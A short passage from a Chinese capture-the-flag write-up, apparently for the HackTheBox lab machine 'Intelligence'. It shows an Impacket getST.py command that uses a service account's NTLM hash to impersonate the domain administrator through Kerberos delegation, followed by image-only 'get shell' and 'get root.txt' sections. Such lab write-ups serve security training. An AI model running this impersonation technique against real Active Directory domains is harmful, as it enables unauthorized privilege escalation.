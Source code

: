 启动虚拟机备份并安装 ntupdate 和 chrony：  
apt install ntpdate chrony  
[![](assets/1701071906-9c14a6e88a6204464e5d3546b8ec9265.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231125213245-1dde45f6-8b97-1.png)  
getST.py -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes :87c12d4a0641b2b17fb5620cc2db2ca8 -impersonate administrator intelligence.htb/svc\_int  
[![](assets/1701071906-c4cca07e9266c1b96f7d0e44469d65b4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231125213257-2535a2c2-8b97-1.png)

## 获取shell

成功获取管理员权限。

[![](assets/1701071906-26a8597eb32a8f3b8d5affea332163bf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231125213315-2fa6de60-8b97-1.png)

## 获取root.txt
